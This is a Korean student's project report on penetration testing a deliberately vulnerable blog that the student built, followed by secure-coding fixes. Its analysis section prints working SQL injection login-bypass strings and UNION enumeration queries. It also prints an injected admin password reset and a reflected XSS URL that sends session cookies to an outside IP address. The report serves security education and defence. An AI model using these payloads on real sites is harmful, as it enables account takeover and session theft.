Project 17 최종보고서/2022105502/한동수 

## Project 3 최종보고서 

# 웹 모의해킹을 통한 취약점 분석 및 대응 

(사이버보안 융합리더트랙) 

## 소프트웨어융합개론 2022105502 한동수 

2022-12-03 

## 목차 

1 서론 ……………………………………………………………………………3

1. 목적 …………………………………………………………………………………………………… 3  
1. 계획 …………………………………………………………………………………………………… 3  

2 취약점 분석  ……………………………………………………………………… 4

1. 배경 지식 …………………………………………………………………………………………… 4  
1. 로그인 페이지 ……………………………………………………………………………………… 5  
1. 게시판 페이지 ……………………………………………………………………………………… 7  

3 취약점 대응 …………………………………………………………………10 

1. 아이디어 ……………………………………………………………………………………………… 10  
1. 실행 …………………………………………………………………………………………………… 11  

4 결론 …………………………………………………………………………  15 

## 1 서론 

1. 목적 

` `인터넷을 사용하는 가장 대표적인 수단인 웹은 여러 보안 위협에 노출되어있다. 흔히 브라우저를 이용하여 웹에 접속하는데, 주소를 입력하면 http 또는 https를 사용하는 웹서버에 접속한다. 여기서 생기는 취약점 은, IP카메라 등 인터넷에 연결된 장비들을 관리자 페이지를 통해 관리하는 것이다. 내부 네트워크에 연결된 장비라면 위협이 현저히 적겠지만 인터넷을 통해 연결된 장비들 중 기본 관리자 페이지가 그대로 노출된 경 우도 있다. 간단한 예로, 구글에 ‘intitle:"Live View / - AXIS"’라는 검색어를 치면 보안 위협에 노출된 Axis 네트워크 카메라들이 실시간으로 화면을 송출하는 것을 볼 수 있다. 이를 제외하고도 Google Hacking Databases를 검색하면 구글 검색만으로도 관리자 페이지나 로그인 페이지, IP 카메라 등에 접근할 수 있는 방법들이 나와있다. 만약 관리자 페이지가 ID와 Password로 인증을 요한다해도 접근이 누구에게나 가능한 것은 큰 위협에 노출되어있는 것과 같다고 볼 수 있다. 개인 블로그를 직접 만들 때나 웹사이트를 운영할 때, 간단한 정적 페이지가 아니고서야 관리자 페이지나 인증 등도 함께해야 할 것이다. 따라서 이 프로젝트 는 어떤 취약점들이 있는지 이 프로젝트를 통해 경각심을 일깨우고, 어떻게 대응할 수 있는지 해결방안을 제공함으로써 자산을 보호하고, 위협을 줄일 수 있도록 하기 위함이다. 

2. 계획 

` `프로젝트는 인터넷에 올라가 있는 취약한 웹페이지 구현으로 시작한다. (HTML,CSS,JS,PHP,MySQL, goormide 이용) 이 웹페이지에는 개인 블로그에서 사용할 만한 간단한 로그인 기능과, 게시판 기능이 있다. Admin, Public User 계정을 만들어 Admin이 정상적으로 게시판을 이용할 때, 해커가 Public User계정을 이 용하여 Admin 권한을 탈취하는 시나리오이다. 취약점 분석의 목표는 5개 이상의 취약점을 찾는 것이다. 취 약점에 대해 어떤 부분에서 탈취에 성공했는지 분석 보고서를 작성한다. 취약점 분석 보고서에 대해 취약점 대응 절차를 거친다. 취약점 대응 절차는 아이디어, 실행, 테스트로 구성된다. 어떻게 취약점을 막을 수 있을 지 아이디어를 떠올리고, 코드 내용을 변경 또는 추가하는 실행, 취약점을 다시 테스트하여 취약점이 보완되 었는지 확인한다. 이와 같은 절차에 대해 취약점 대응 보고서를 작성한다.  

## 2 취약점 분석

1. 배경 지식 

SQL Injection 

- SQL Injection은 데이터베이스를 사용하는 어플리케이션에서 사용자 입력값을 통해 SQL 질의를 만드는 로그인 등의 과정에서 정상적인 값이 아닌 조작된 입력값을 입력하여 비정상적인 쿼리 전송을 유도하는 것이다. 이와 같은 SQL Injection을 통해 할 수 있는 공격으로는 비인가 사용자 인증, 사용자 인증 통과, 데이터  열람,  데이터베이스  조작이  있다.  Blind  SQL  Injection은  직접적으로  값을  알  수  없지만 True/False를 통해 값을 유추하여 데이터베이스/테이블의 내용을 알아내는 공격 기법이다.  

XSS 

- XSS는 Cross Site Scripting의 약자로 브라우저에 Script를 실행하게 하는 공격이다. XSS는 Stored 방식 과  Reflected  방식이  있는데,  Stored  방식은  게시글과  같은  페이지에  저장하여  게시글에  접속했을  때 실행되는 방식이고, Reflected 방식은 URL CGI 인자에 코드를 삽입하여 클릭했을 때 실행되는 방식이다. XSS를 통해 할 수 있는 공격으로는 피싱, 광고 삽입, 세션 가로채기 등을 할 수 있다.  

CSRF 

- CSRF는 Cross Site Request Forgery의 약자로 피해자가 한 정상적인 요청인 것처럼 위조하여 공격자가 의도한 특정한 행동을 하도록 하는 공격 기법이다. 

웹페이지 주소(2022년 12월 20일까지 유효): https://vulnerable-page-ofyle.run.goorm.io/ 깃헙 주소: https://github.com/gnod-soo/vulnerable\_page 

2. 로그인 페이지 
1. SQL Injection 
- 로그인  실패  확인:  id에  admin,  pw에  아무것도  입력하지  않고  어떤  반응이  나타나는지  확인한다.



alert로  ‘로그인  실패’라는  메시지가  뜨는  것을  확인했다.  여러  번  진행하여  로그인에  여러  번  실패  시 패널티가 있는 것을 확인한다. -> 패널티가 없음. 

- ID에 기본 관리자로 추정하는 admin, PW에 Generic SQL Injection Payloads를 삽입하여 로그인에 성공 하는지 확인한다. 

|Generic SQL Injection Payloads |결과 |
| - | - |
|OR 1=1 |실패 |
|ORDER BY 1-- |실패 |
|' OR '1 |성공 |
|' OR 'x'='x |성공 |
|-- # |실패 |


주석 처리는 허용되지 않았고, 문자열 조작을 통해 로그인에 성공할 수 있었다. 

2. Blind SQL Injection 
- 로그인에 성공하면 True이다. 
- UNION을 이용해 컬럼의 개수를 알아낸다. ID: admin, PW: [' OR '1' UNION SELECT 1, 2.. 로그인 성공할 때까지 늘리기 # '1] 
- [' OR '1' UNION SELECT 1,2,3 # '1]로 로그인을 성공했으므로 컬럼 수는 3개이다. 이를 통해 UNION 명 령어가 사용가능하다는 것을 알 수 있다. 
- Brute Force(사전 테이블에 user, account 입력하여 시간 줄임)  공격을 통해 유저 정보가 담긴 테이블 명을 알아낸다.  [' OR '1' UNION SELECT 1,2,COLUMN\_NAME from INFORMATION\_SCHEMA.COLUMNS where TABLE\_NAME='user' # '1] 가 True이므로 테이블명이 user라는 것을 알 수 있다. 
- 패스워드의 컬럼명을 password, pass, passwd, pw으로 유추하여 찾아내었다. [' OR '1' UNION SELECT 1,2,COLUMN\_NAME  from  INFORMATION\_SCHEMA.COLUMNS  where  TABLE\_NAME='user'  and COLUMN\_NAME='pw' # '1]  
- 같은  방법으로  ID의  컬럼명도  찾아내었다.  ['  OR  '1'  UNION  SELECT  1,2,COLUMN\_NAME  from INFORMATION\_SCHEMA.COLUMNS where TABLE\_NAME='user' and COLUMN\_NAME='id' # '1] 
- Admin password 변경 [' OR '1'; update user set pw='11111111' where id='admin'; # '1] 
- ID: admin, PW: 11111111로 접속,  성공 

Admin 패스워드를 변경하는 데 성공했지만 다음 취약점들은 패스워드를 모르는 상태라고 가정한다. 

3. 게시판 페이지 
3. Stored XSS 
- Aws를 이용한 외부 서버 준비(for 세션 하이재킹)  





글쓰기 



 

Admin이 글에 접속하면 3초 뒤 해킹서버로 세션아이디 전송 (세션 하이재킹) 



PHPSESSID 복사해서 브라우저 쿠키에 삽입 -> 성공 

4. Reflected XSS 
- url에 스크립트를 삽입하여 누르면 세션 하이재킹이 실행되도록 url을 만들었다. 
- https://vulnerable-page- ofyle.run.goorm.io/content.php?num=51&title=hi&description=%3Cscript%3E%20var%20cookieData =document.cookie;%20setTimeout(()%20=%3E%20location.href=`http://44.203.182.159/session.ph p?data=${cookieData}`,%203000);%20%3C/script%3E&id=user01  
5. CSRF 
- 위에  만든  XSS는  브라우저에서  저장된  스크립트를  실행하여  Redirecting하는  페이지이다.  이번에는 CSRF를 이용하여 다른 글을  클릭하더라도 강제로 User 스스로 그 페이지로 이동하도록  할 것이다. 글 을 읽어올 때 기본적으로 GET 메소드를 사용하기 때문에 Url을 통한 위조가 가능하다. 



- 이와 같이 img 태그에 src를 XSS를 적용한 페이지로 설정해 간접적으로 Redirecting이 되도록 했다. 



- 위의 ‘급함급함’이라는 글을 클릭해도 XSS가 적용된 페이지로 이동하여 세션을 전송하게 된다. 

## 3 취약점 대응 

1. 아이디어 

취약점  분석에  대해  시큐어  코딩으로  이를  해결할  수  있는  방안을  생각해보았다.  취약점  대응  이전의  소스코드 는  https://github.com/gnod-soo/vulnerable\_page 에서 볼 수 있다. 

1. SQL Injection 
- 따옴표가  들어간  Payloads만  성공했으므로,  문자열  그대로  SQL  쿼리문에  전달되기  때문에  발생하는 문제라고 생각한다.  
- 입력값을 검증한다. SQL 명령어나 AND, OR과 같은 연산자가 들어간 글들을 제한함으로써 입력할 때 에 조건을 걸어 SQL 명령어가 있다면 입력 자체가 불가하도록 설정한다. 
- 쿼리의 구조적 보안성을 높인다. SQL Injection이 성공할 수 있었던 이유는 먼저 id와 pw의 쿼리가 합 쳐져  있기  때문이다. Id에  대해  쿼리를  보내고,  받은  쿼리는  패스워드는  백엔드  언어의  조건문을  통해 쿼리의 패스워드와 입력한 패스워드가 일치하는지 검증한다. 
- 인코딩  후  쿼리에  전달한다.  인코딩를  거치고  데이터베이스에  저장하면  쿼리에  잘못된  문자열을  삽입 하여 잘못된 쿼리를 삽입할 수 없을 것이다. 
2. Blind SQL Injection 
- 위와 동일하다. 
3. Stored XSS 
- 문자열  필터링을  거친다.  자바스크립트를  실행하기  위해서는  <>를  사용하는  태그가  필수적이므로  이 태그를 제한하거나 인코딩하면 될 것이다.
- 세션 탈취가 주가 되는 공격이므로 세션 타임아웃을 설정하여 위험성을 줄인다.
4. Reflected XSS 
- Stored XSS의 해결방안들을 진행하고, 추가적으로 url을 이용한 공격이므로 url에 입력값과 파라미터를 표시하지 않는 POST Method를 이용하도록 한다.
5. CSRF 
- 위와 동일하다. 
2. 실행 

A. SQL Injection & B. Blind SQL Injection 

- 입력값 검증 





- 쿼리 구조적 보안성 향상(위 사진과 비교) 



- id나 pw에 입력하는 값마다 인코딩하게되면 서버 성능에 영향을 줄 것 같아 인코딩은 하지 않았다. 

C. Stored XSS & D. Reflected XSS & E. CSRF 

- 문자열 필터링 



- 세션 타임아웃 



- Post Method 이용 





## 4 결론 

` `웹페이지를 제작하고, 모의해킹을 통해 취약점을 탐지하고, 직접 대응함으로써 웹 보안의 전반적인 내용을 이해할 수 있었다. 취약점을 보완하기 위해서는 취약점 분석이 꼭 필요하다고 생각해 취약점 분석을 통해 어떤 취약점들이 있는지, 왜 그런 취약점들이 나왔는지, 어떻게 하면 보완할 수 있는지 분석하였다. 하지만 취약점 대응을 통해 보완한 취약점에도 우회할 수 있는 여러 기법들이 존재하고, 생겨나기 때문에 언제나 보안 의식을 철저히 가지고, 웹사이트의 관리자, 개발자가 보안에 대해 계속적으로 의식해야 한다는 생각이 들었다.  

참조 

- Kim, Junghun. (2007). Static analysis of SQL-injection vulnerabilities by validating the input-filtering of PHP programs. https://repository.hanyang.ac.kr/handle/20.500.11754/149490 
- https://sudo-minz.tistory.com/71 
- https://www.informit.com/articles/article.aspx?p=603037  
- Hong, Sunghyuck. (2013). XSS Attack and Countermeasure: Survey. Journal of Digital Convergence, 11(12), 327–332. https://doi.org/10.14400/JDPM.2013.11.12.327 
17 
